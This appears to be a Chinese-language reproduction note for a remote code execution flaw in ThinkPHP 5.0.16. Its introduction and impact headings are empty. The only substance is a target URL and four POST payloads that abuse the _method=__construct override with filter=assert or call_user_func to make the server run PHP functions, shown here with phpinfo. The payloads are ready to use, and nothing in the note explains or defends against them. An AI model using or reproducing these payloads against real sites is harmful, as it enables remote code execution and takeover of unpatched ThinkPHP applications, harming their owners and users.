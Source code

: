 # Thinkphp 5.0.16

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```
http://url/index.php?=captcha.php

s=phpinfo()&_method=__construct&filter=assert
_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1
```